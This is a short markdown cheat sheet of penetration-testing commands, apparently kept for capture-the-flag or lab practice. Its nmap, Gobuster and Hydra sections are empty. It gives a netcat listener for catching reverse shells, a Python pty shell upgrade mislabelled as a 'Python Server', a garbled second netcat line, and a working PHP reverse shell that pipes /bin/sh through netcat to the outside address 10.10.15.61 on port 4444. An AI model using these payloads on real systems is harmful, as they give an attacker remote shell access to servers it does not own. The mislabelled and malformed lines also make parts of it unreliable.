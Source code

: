 # Useful Codes
---
## nMap
---



---
## Gobuster
---



---
## Hydra
---



---
## Netcat
---
- Listening for incoming RevShells
```sh
nc -lvnp port
```
- Listen for incoming calls
```sh
nc -nc ip port
```

---
## Python
---
- Python Server
```python

python3 -c 'import pty; pty.spawn("/bin/bash")'

```

---
## Revshells
---
- PHP Reverse Shell
```php

<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.61 4444 >/tmp/f"); ?>

```